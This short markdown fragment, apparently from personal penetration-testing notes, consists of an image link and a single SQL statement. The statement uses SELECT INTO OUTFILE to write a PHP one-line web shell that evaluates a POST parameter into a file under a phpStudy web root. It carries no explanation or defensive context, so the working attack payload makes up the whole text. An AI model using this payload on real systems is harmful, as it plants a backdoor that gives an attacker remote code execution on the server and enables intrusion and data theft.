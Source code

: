 ![image-20240121174515788](assets/image-20240121174515788.png)

```sql
Select '<?php eval($_POST[hack]);?> ' into outfile 'C:/phpStudy/WWW/hack.php'
```

